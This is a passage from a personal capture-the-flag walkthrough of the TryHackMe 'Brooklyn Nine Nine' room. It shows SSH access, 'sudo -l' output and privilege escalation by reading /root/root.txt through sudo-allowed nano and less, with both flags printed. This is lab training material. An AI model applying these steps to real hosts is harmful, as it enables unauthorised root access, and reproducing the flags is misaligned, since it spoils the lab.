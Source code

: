 First of all Holt.
```script
ssh holt@10.10.220.170
holt@10.10.220.170's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
Now what can he do with sudo -l
```script
sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
So all we need to do now is read the root file with the /bin/nano /root/root.txt command

What about jack.
```script
jake@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:/home/holt$ /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845
```

This is the first time I used my new draft template for working through the room, and I may even give it a 1.0 version if it keeps this up :)

This room was created by [Fsociety2006](https://tryhackme.com/p/Fsociety2006) and one I really enjoyed not just because of the 99 show but also the learning value.

Thanks Fsociety2006 for your time.

Regards

Karti
## Hello

<script src="https://tryhackme.com/badge/65208"></script>







